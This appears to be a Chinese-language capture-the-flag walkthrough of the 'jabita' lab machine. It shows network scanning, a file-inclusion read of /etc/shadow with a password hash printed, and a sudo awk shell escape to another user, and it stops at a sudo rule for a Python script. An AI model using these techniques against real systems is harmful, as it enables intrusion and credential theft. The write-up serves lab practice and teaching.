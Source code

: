 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow


jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破




# 提权

```c
jack@jabita:~$ sudo -l
    (jaba : jaba) NOPASSWD: /usr/bin/awk 
```

然后去这个网站搜索相关命令getshell，，，awk
[GTFOBins](https://gtfobins.github.io/)

```c
sudo awk 'BEGIN {system("/bin/sh")}'
```

```c
jack@jabita:~$ sudo -u jaba  /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)

$ script /dev/null -c bash
jaba@jabita:/home/jack$ sudo -l
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py


```
